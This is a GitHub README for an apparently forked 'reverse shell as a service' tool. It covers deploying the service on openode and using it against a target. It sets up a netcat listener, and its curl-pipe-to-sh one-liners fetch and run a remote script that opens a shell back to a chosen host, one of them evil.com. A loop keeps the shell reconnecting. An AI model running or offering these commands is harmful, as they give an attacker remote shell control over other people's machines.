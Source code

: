 # reverse-shell

> Reverse Shell as a Service - http://reverse.us.openode.io/ modified from https://github.com/lukechilds/reverse-shell and host it in https://www.openode.io/


## Deploy

* Generate Template
```shell
$ openode template
```

* enable https (optional)
```shell
$ openode set-config SSL_CERTIFICATE_PATH your-cert-folder/certfile.crt
$ openode set-config SSL_CERTIFICATE_KEY_PATH your-cert-folder/keyfile.key
```

* deploy
```shell
$ penode deploy
```

* add custom domain(actually not working)
```shell
openode add-alias youdomain.com
```

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

```shell
curl http://reverse.us.openode.io/192.168.0.69:1337 | sh
```
```shell
curl https://zyx.iami.xyz/localhost:1337 | sh
```
```shell
curl https://zyx.iami.xyz/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://zyx.iami.xyz/yourip:1337 | sh; done
```

## License

MIT © Luke Childs
